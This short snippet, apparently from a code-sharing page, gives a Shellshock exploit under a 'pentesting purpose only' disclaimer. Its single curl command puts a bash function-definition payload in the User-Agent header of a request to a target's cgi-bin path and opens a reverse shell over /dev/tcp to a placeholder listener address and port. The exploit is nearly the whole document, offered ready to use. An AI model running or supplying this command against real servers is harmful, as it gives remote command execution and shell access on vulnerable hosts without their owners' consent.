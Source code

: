 DISCLAIMER:
This is for pentesting purpose only. Use only on your own machine or a machine that you are authotized to use. 
Author takes no responsibility for whatever effects of this code if used by third parties.

#Shellshock 

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'sh -i >& /dev/tcp/<listener ip>/<LPORT> 0>&1'" http://targetip/cgi-bin
